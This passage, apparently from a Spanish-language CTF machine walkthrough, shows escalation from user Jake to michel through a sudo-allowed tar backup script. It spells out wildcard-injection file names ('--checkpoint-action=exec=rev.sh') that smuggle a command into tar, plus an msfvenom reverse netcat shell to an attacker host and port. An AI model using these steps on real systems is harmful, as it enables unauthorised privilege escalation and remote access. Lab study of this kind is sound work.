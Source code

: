 ![](ssh.png)

Ahí tenemos conexión con el usuario **Jake**, después del tratamiento de la TTY podemos empezar a intentar escalar privilegios.

Navegando por los directorios podemos ver la bandera de usuario.

![](bandera2.png)

## Escalada de Privilegios I:

Visualizando un poco la máquina podemos ver que haciendo un **sudo -l** vemos que podemos ejecutar un script con el usuario michel sin contraseña.

![](sudo-l.png)

El contenido del script es:

```console
#!/bin/bash  
echo "Hacking up files ...";  
tar cf /opt/backup/backup.tar *
```

Este script crea un archivo tar con todo el contenido del directorio actual. El comodín es el punto débil: hace que tar trate como argumentos a cualquier archivo que tenga nombres que parezcan opciones (prefijadas con — ).

La herramienta tar permite ejecutar comandos mientras hace backups gracias a las opciones:

- - `--checkpoint=1` → muestra el progreso cada 1 archivo
- - `--checkpoint-action=exec=CMD` → ejecuta CMD en cada punto de control

Para explotarlo:

1-. Creamos dos archivos especialmente nombrados en el directorio:

```console
touch -- '--checkpoint=1'  
touch -- '--checkpoint-action=exec=rev.sh'
```

2-. Creamos el script malicioso con **msfvenom**

`msfvenom -p cmd/unix/reverse_netcat lhost=HOST lport=LPORT`

Nos da la shell y la copiamos dentro del fichero.

`echo "SHELL" > /rev.sh`

Una vez tengamos todo creado, nos ponemos en escucha con **netcat** por el puerto que hemos puesto en la shell.

Lo ejecutamos y…

![](revshell.png)

Estamos dentro del usuario micheal.
